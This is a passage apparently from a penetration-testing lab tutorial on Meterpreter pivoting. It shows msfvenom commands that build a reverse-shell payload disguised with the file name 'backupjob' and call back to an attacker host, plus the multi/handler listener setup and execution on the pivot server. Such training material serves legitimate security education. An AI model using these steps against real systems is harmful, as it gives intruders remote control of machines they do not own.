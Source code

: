 # Meterpreter Tunneling & Port Forwarding

Now let us consider a scenario where we have our Meterpreter shell access on the Ubuntu server (the pivot host), and we want to perform enumeration scans through the pivot host, but we would like to take advantage of the conveniences that Meterpreter sessions bring us. In such cases, we can still create a pivot with our Meterpreter session without relying on SSH port forwarding. We can create a Meterpreter shell for the Ubuntu server with the below command, which will return a shell on our attack host on port `8080`.

**Creating Payload for Ubuntu Pivot Host**

Meterpreter Tunneling & Port Forwarding

```shell-session
AIceBear@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```

Before copying the payload over, we can start a [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), also known as a Generic Payload Handler.

**Configuring & Starting the multi/handler**

Meterpreter Tunneling & Port Forwarding

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

We can copy the `backupjob` binary file to the Ubuntu pivot host `over SSH` and execute it to gain a Meterpreter session.

**Executing the Payload on the Pivot Host**

Meterpreter Tunneling & Port Forwarding

```shell-session
ubuntu@WebServer:~$ ls

backupjob
ubuntu@WebServer:~$ chmod +x backupjob 
ubuntu@WebServer:~$ ./backupjob
```
